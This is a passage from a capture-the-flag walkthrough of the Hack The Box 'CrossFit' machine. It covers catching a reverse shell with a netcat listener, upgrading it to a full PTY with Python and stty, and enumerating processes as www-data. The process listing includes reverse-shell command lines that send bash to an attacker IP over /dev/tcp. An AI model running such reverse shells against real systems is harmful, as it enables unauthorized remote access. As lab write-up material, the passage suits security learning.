 I received a connection request for my JavaScript code, and Burp, which I had used to send the request, showed that the server was stuck while trying to send me a response.  This was good sign as this tends to happen when sending a reverse shell this way.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ script initial-foothold                                                                         1 ⨯
Script started, output log file is 'initial-foothold'.
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ bash                                                             
zweilos@kali:~/htb/crossfit$ nc -lvnp 8091
listening on [any] 8091 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.10.208] 60548
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 22:51:04 up 2 days,  9:01,  0 users,  load average: 1.78, 2.11, 2.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
www-data@crossfit:/$ ^Z
[1]+  Stopped                 nc -lvnp 8091
zweilos@kali:~/htb/crossfit$ stty size
54 104
zweilos@kali:~/htb/crossfit$ stty raw -echo
nc -lvnp 8091aa:~/htb/crossfit$ 

www-data@crossfit:/$ stty rows 54 columns 104
www-data@crossfit:/$ export TERM=xterm-256color
```

After a little bit of waiting, I got a shell back on my waiting netcat listener!  The first thing I did was upgrade to a full PTY using Python.  


> Before starting my netcat listener I did some setup.  First I ran the **`script`** command to log all of my commands and output, and I also used **`bash`** because **`zsh`** has a problem \(at least on my system, not sure if it is a confirmed bug\) where backgrounding the connection and setting **`stty raw -echo`** breaks the shell in a way that I cannot use **`enter`** or control key commands.  If anyone has any feedback on this I would appreciate it!


### Enumeration as `www-data`

```text
www-data@crossfit:/run$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data  6266  0.0  0.0  10748  1204 pts/3    R+   22:56   0:00 ps aux
www-data 15839  0.0  0.2  17056  8284 ?        S    22:52   0:00 python3 -c import pty;pty.spawn("/bin/b
www-data 15866  0.0  0.0   7192  3476 pts/3    Ss   22:52   0:00 /bin/bash
www-data 17149  0.0  0.1  12216  7044 ?        S    17:35   0:00 python -c import pty;pty.spawn("/bin/ba
www-data 17200  0.0  0.0   3868  3216 pts/2    Ss+  17:35   0:00 /bin/bash
www-data 20099  0.0  0.0   2388   696 ?        S    22:51   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data 20109  0.0  0.0   2388   760 ?        S    22:51   0:00 /bin/sh -i
www-data 21211  0.0  0.0   2388   760 ?        S    Mar20   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.1
www-data 21212  0.0  0.0   3736  2800 ?        S    Mar20   0:00 bash -c bash -i >& /dev/tcp/10.10.14.24
www-data 21213  0.0  0.0   3868  3244 ?        S    Mar20   0:00 bash -i
www-data 21225  0.0  0.2  17056  8256 ?        S    Mar20   0:00 python3 -c import pty;pty.spawn("/bin/b
www-data 21226  0.0  0.0   7060  3464 pts/0    Ss+  Mar20   0:00 /bin/bash
```
